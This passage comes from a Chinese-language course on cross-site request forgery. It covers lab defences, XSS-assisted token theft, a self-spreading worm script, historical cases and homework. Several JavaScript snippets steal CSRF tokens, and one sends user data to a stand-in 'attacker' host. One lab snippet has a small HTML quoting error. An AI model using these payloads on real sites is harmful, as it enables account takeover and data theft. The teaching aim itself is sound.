        # 1. Referer / Origin
        origin = request.headers.get("Origin") or request.headers.get("Referer","")
        if origin and urlparse(origin).netloc != request.host:
            return "Origin invalid", 403
        # 2. CSRF Token
        token = request.form.get("csrf") or request.headers.get("X-CSRF-Token")
        if token != session.get("csrf"):
            return "Token invalid", 403

@app.route("/login/<u>")
def login(u):
    session["user"] = u
    session["csrf"] = secrets.token_hex(32)
    return f"login as {u}, token={session['csrf']}"

@app.route("/form")
def form():
    return f'''
    <form action="/transfer" method="POST">
        <input type="hidden" name="csrf" value="{session.get('csrf','')}>
        To: <input name="to"><br>
        Amount: <input name="amount"><br>
        <button>Transfer</button>

    </form>

    '''

@app.route("/transfer", methods=["POST"])
def transfer():
    u = session.get("user")
    to = request.form.get("to")
    amount = int(request.form.get("amount",0))
    if USERS[u]['balance'] >= amount:
        USERS[u]['balance'] -= amount
        USERS[to]['balance'] += amount
    return "OK"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5001)
EOF
```

### 测试防御是否生效
1. 登录 alice → 拿到 token
2. 访问 `/form` 正常提交 → ✅
3. evil.html 不带 token 提交 → 403 ✅
4. evil.html 带错误 token 提交 → 403 ✅

---

## 3.12 第 3 课小结
| 防御 | 强度 | 实现复杂度 | 兼容性 |
| --- | :---: | :---: | :---: |
| CSRF Token | ★★★★★ | 中 | 全部 |
| SameSite=Lax | ★★★★ | 极低 | 现代浏览器 |
| Origin/Referer | ★★★ | 低 | 全部 |
| 二次密码 | ★★★★★ | 中 | 全部 |
| 验证码 | ★★★★★ | 高 | 全部 |
| RESTful | ★★ | 低 | 全部 |


### 推荐组合
```plain
Token（必须） + SameSite=Lax（必须） + Origin 校验（推荐） + 敏感操作二次验证
```

### 课间实操（10 分钟）
1. 在自建靶场加 Token 验证，测试 PoC 失效
2. 加 SameSite=Lax，用 evil.html 测试 Cookie 不带
3. 加 Origin 校验，伪造请求被拒

---

# 第 4 课 · CSRF + XSS 组合 + 真实案例 + 进阶
## 4.1 单纯 CSRF vs CSRF+XSS
```
单纯 CSRF → 攻击者无法读响应 → 只能改状态，不能读数据
CSRF + XSS → XSS 偷到 Token → 绕过 CSRF 防御 → 还能读响应 / 改 DOM
```

🎯 **本质理解**：  
CSRF 防御（Token）的根基是"攻击者读不到页面"。  
如果有 XSS，**整个防御链崩塌**——XSS 就在页面内，可以读 Token。

---

## 4.2 用 XSS 绕过 CSRF Token
### 场景
目标：`/admin/delete?token=xxx`，有 CSRF Token 保护。

### 利用：Stored XSS 偷 Token
```html
<!-- 攻击者在评论区留下 -->
<script>
// 偷当前页面 Token
var token = document.querySelector('input[name="csrf"]').value;
// 发起带 Token 的请求
fetch('/admin/delete?id=999', {
    credentials: 'include',
    headers: {'X-CSRF-Token': token}
});
</script>

```

管理员访问评论 → XSS 触发 → 自动用管理员 Token 调用删除接口。

### 利用：XHR + 同源
```javascript
// XSS 在 victim.com 内执行
// → 同源 → 可以发请求 + 读响应
fetch('/admin/users').then(r=>r.json()).then(users => {
    fetch('http://attacker/log?d=' + JSON.stringify(users));
});
```

---

## 4.3 DVWA High 关卡用 XSS 绕过
### High 关卡原理
```php
$pass_curr = $_GET[ 'password_current' ];
checkToken($_GET['user_token'], $_SESSION['session_token'], 'index.php');
```

需要：
+ 原密码（攻击者不知道）
+ Token（每次变化）

### 配合 Stored XSS
1. 在 DVWA 留言板注入 XSS（XSS Stored 关卡）
2. Payload：
```html
<script>
// 1. 拿到 admin 当前页的 token
// 2. fetch 调用密码修改接口
// 3. 改成攻击者已知密码
</script>
```
3. 管理员访问留言板 → 自动被改密码。

---

## 4.4 CSRF 蠕虫
### 配合存储型 XSS 实现 CSRF 蠕虫
```javascript
// 1. 当前受害者访问到我的资料
// 2. 偷 Token
var token = document.querySelector('meta[name=csrf]').content;

// 3. 用受害者身份发布新内容（含同样 Payload）
fetch('/api/post', {
    method: 'POST',
    credentials: 'include',
    headers: {
        'Content-Type': 'application/json',
        'X-CSRF-Token': token
    },
    body: JSON.stringify({
        content: '<script>/* 同样的蠕虫代码 */</script>'
    })
});
```

→ 像 XSS 蠕虫一样扩散，但**用 CSRF Token 完成状态变更**。

---

## 4.5 CSRF 进阶：HTTP 方法与 Lax 的微妙之处
### SameSite=Lax 仍允许什么？
```plain
✅ <a href="...">    用户点击顶级导航 GET
✅ 表单提交到第三方（顶级导航）
✅ <link rel="prerender">
```

### 绕过 Lax 的方法（已修复 / 部分场景）
| 历史 PoC | 原理 |
| --- | --- |
| `?<script>` 触发 POST navigation | Chrome 78-79 漏洞，已修 |
| 表单自动提交 + `target=_top` | 顶级导航，Lax 允许 |
| `window.open` + 表单 | 部分浏览器 |
| cookie 注入 + Lax 允许 | 老浏览器 |

🎯 **结论**：  
SameSite=Lax 仍是强大但**非完全**的防御。  
必须配合 Token。

---

## 4.6 Login CSRF（特殊类型）
### 什么是 Login CSRF？
攻击者**强制受害者登录攻击者账号**。

### 场景
1. 攻击者用 evil_account 登录目标网站
2. 把 session Cookie 拿到（或者让受害者直接登录攻击者账号）
3. 受害者后续操作（上传文件、绑定信息）实际是攻击者账号
4. 攻击者用同账号查看历史 / 数据

### 防御
登录接口也要加 CSRF Token！  
确认是用户主动发起的登录，不是被诱导的。

---

## 4.7 多阶段 CSRF
### 场景
部分接口需要先 GET 拿 Token，再 POST 提交。攻击者用多步绕过：

```javascript
// step 1: 拿到页面
fetch('http://victim.com/form').then(r => r.text()).then(html => {
    // 但同源策略禁止跨域读响应！
    // 所以多阶段 CSRF 在严格 CORS 下不可行
});
```

**关键**：如果目标 CORS 配置松（如 `Access-Control-Allow-Origin: *`），多阶段 CSRF 可能成功。

---

## 4.8 真实案例赏析
### 案例 1：Gmail Contact List CSRF (2006)
+ 漏洞：Gmail 添加联系人接口无 CSRF 防护
+ 攻击者诱导用户访问 evil 页面
+ 自动添加攻击者邮箱到联系人
+ 后续邮件被识别为"已知联系人"绕过部分过滤

### 案例 2：YouTube CSRF 修改邮箱 (2008)
+ 漏洞：修改账号邮箱接口无 Token
+ 攻击者强制受害者修改邮箱为攻击者控制账号
+ 通过邮箱重置密码 → 接管账号

### 案例 3：新浪微博 CSRF 蠕虫 (2010)
+ 关注 / 转发接口无 CSRF 防护
+ 配合 XSS 形成蠕虫
+ 数小时扩散数十万用户

### 案例 4：CSRF 改 DNS 设置（路由器）
+ 漏洞：家用路由器管理界面（如 TP-Link 192.168.1.1）默认密码或无 CSRF
+ 攻击者诱导用户访问 evil 页面
+ 自动 POST 修改路由器 DNS 为攻击者控制 DNS
+ 后续所有 HTTP 请求被劫持 → 钓鱼 / 挖矿

### 案例 5：Steem 跨站请求伪造 (2018)
+ 区块链内容平台 Steem 的关注 / 转账接口 CSRF
+ 一次访问被自动关注 + 自动转账
+ 直接造成数字资产损失

---

## 4.9 CSRF 检测自动化
### Burp Suite Passive Scan
Burp 会自动标记可能的 CSRF：
+ POST 接口没看到 CSRF Token
+ Cookie 无 SameSite

### 工具：CSRF Tester
+ OWASP CSRFTester（老工具）
+ 思路：抓包 → 重放 → 判断是否需要 Token

### 自检清单
```plain
□ 状态变更接口（POST/PUT/DELETE）是否有 Token？
□ Token 是否绑定 Session？
□ Token 是否一次性 / 定期轮换？
□ Cookie 是否设 SameSite？
□ Referer / Origin 是否校验？
□ 敏感操作是否二次验证？
□ 是否所有 HTTP 方法都校验？
```

---

## 4.10 CSRF 漏洞挖掘流程
```
登录目标 → 浏览所有功能 → Burp 抓所有 POST 请求 → 有无 CSRF Token?
├无→🔴 直接 CSRF
└有→尝试绕过 → 去掉 Token 看是否仍通过
　　　　　　　├通过→🔴 Token 仅作摆设
　　　　　　　└拒绝→改 HTTP 方法 PUT/PATCH
　　　　　　　　　　├通过→🔴 方法不一致
　　　　　　　　　　└拒绝→🟢 防御良好
```

### SRC 提交规范
PoC 应包含：
1. **漏洞描述**：哪个接口、什么操作
2. **复现步骤**：登录态、URL、PoC HTML
3. **危害评估**：能做什么、影响多大
4. **修复建议**：加 Token / SameSite / Referer

---

## 4.11 第 4 课小结
| 知识点 | 一句话 |
| --- | --- |
| CSRF + XSS 组合 | XSS 偷 Token → CSRF 防御崩溃 |
| XSS 在 CSRF 防御中的位置 | "页面内读 Token"是 CSRF Token 的根 |
| Login CSRF | 强制受害者登录攻击者账号 |
| 多阶段 CSRF | 严格 CORS 下不可行 |
| SameSite=Lax 局限 | 顶级导航 POST 仍可绕 |
| 真实案例 | Gmail / YouTube / 微博 / 路由器 / Steem |
| 检测自动化 | Burp 被动扫描 + 自检清单 |


---

# 📝 课程总回顾（必背 30 条）
### 基础
1. CSRF = 借用受害者登录态发起请求
2. 核心机制：浏览器自动带 Cookie
3. 与 XSS 区别：XSS 在站内，CSRF 在站外
4. 同源策略不限制请求发出
5. SameSite 默认 Lax（Chrome 80+）

### GET 型 CSRF
6. `` 自动 GET
7. RESTful 要求 GET 不做状态变更
8. 现代浏览器 Lax 挡掉 img 类 GET
9. 老应用未设 SameSite 仍可触发
10. 老网站仍用 GET 改状态是高危

### POST 型 CSRF
11. 自动提交表单 + 隐藏 iframe
12. method=POST target="hf"
13. 受害者无感知（iframe 隐藏）
14. 表单可发 application/x-www-form-urlencoded
15. multipart/form-data 也可发

### JSON CSRF
16. application/json 触发 CORS 预检
17. 预检失败 → 跨域请求无法发
18. 要求 JSON 的接口天然防御 CSRF
19. 服务端只看 body → 可被 text/plain 绕过
20. fetch + mode:no-cors 只能发简单类型

### 防御
21. CSRF Token 是最根本防御
22. Token 必须绑定 Session
23. Token 一次性 + 定期轮换
24. SameSite=Lax 浏览器侧防御
25. Origin 比 Referer 更可靠
26. 敏感操作二次验证（密码 / 短信）
27. 现代框架默认开启（Django / Spring / Flask-WTF）

### 进阶
28. CSRF + XSS 组合可绕过 Token
29. Login CSRF 强制受害者登录攻击者账号
30. SameSite=Lax 仍允许顶级导航 POST

---

# 🎯 课后作业
### 基础题
1. 启动自建 Flask，复现 GET / POST 两型 CSRF
2. 完成 DVWA CSRF Low / Medium 关卡，写 PoC
3. 完成 pikachu GET / POST CSRF 关卡

### 进阶题
4. 在自建 Flask 上实现 Token + SameSite + Origin 三层防御，验证 evil.html 失效
5. 写一个 Python 脚本，自动从抓包数据生成 CSRF PoC HTML
6. 分析一个真实网站的 Cookie，识别 SameSite / HttpOnly / Secure

### 实战题
7. **代码审计**：找一个开源 PHP/Python 项目，找出所有缺 CSRF 防护的接口
8. **完整攻击链**：用 DVWA Stored XSS + CSRF High 实现"管理员访问即被改密码"
9. **写报告**：模拟 SRC 提交一份 CSRF 报告（含 PoC + 修复方案）

---


